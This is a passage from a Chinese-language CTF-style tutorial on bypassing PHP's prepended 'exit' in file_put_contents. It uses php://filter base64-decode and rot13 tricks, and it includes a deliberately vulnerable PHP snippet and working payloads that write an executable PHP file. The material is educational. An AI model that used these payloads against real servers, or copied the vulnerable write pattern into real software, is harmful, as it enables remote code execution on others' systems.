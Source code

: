 ```
file_put_contents($filename,"&lt;?php exit();".$content);

file_put_contents($content,"&lt;?php exit();".$content);

file_put_contents($filename,$content . "\nxxxxxx");
```

这种代码非常常见，在$content开头增加了exit进程，即使写入一句话，也无法执行，遇到这种问题一般的解决方法便是利用伪协议`php://filter`,结合编码或相应的过滤器进行绕过。绕过原理便是将死亡或者杂糅代码分解成为php无法进行识别的代码。

### <a class="reference-link" name="%E7%AC%AC%E4%B8%80%E7%A7%8D%E6%83%85%E5%86%B5"></a>第一种情况

这里自己先搭建一个环境，通过学习大师傅绕过的方法，自己也来实践一番

```
&lt;?php
if(isset($_GET['file']))`{`
    $file = $_GET['file'];
    $content = $_POST['content'];
    file_put_contents($file,"&lt;?php exit();".$content);
`}`else`{`
    highlight_file(__FILE__);
`}`
```

**<a class="reference-link" name="0x01:base64%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87"></a>0x01:base64编码绕过**

上面提到了绕过原理便是将死亡或者杂糅代码分解成为php无法进行识别的代码。<br>
对于第一种情况便可以使用base64编码，因为base64只能打印64（a-z0-9A-Z）个可打印字符，PHP在解码base64时，如果遇到了不在其中的字符，便会跳过这些字符，然后将合法字符组成一个新的字符串再进行解码。当$content被加上了`&lt;?php exit; ?&gt;`以后，可以使用 `php://filter/convert.base64-decode`来首先对其解码。在解码的过程中，字符`&lt;、?、;、&gt;、空格`等不符合base64编码的字符范围将会被忽略，所以最终被解码的字符只有`phpexit`和传入的其他字符。

但是还要知道一点的是base64解码时是4个byte一组,上面正常解码的只有7个字符，所以再手动加上去1个字符a，凑齐8个字符即可

**payload：**

```
?file=php://filter/convert.base64-decode/resource=Sn0w.php
DATA:
content=aPD9waHAgcGhwaW5mbygpOz8+
```

[![](https://p4.ssl.qhimg.com/t019c32304fa87b8c79.png)](https://p4.ssl.qhimg.com/t019c32304fa87b8c79.png)

**<a class="reference-link" name="0x02:rot13%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87"></a>0x02:rot13编码绕过**

利用rot13编码其实和base64编码绕过原理一样，只要成为php无法进行识别的代码，就不会执行。

> 前提是PHP没有开启short_open_tag(短标签)，默认情况下是没有开启的

**payload:**

```
&lt;?php phpinfo();?&gt;
rot13
&lt;?cuc cucvasb();?&gt;
```
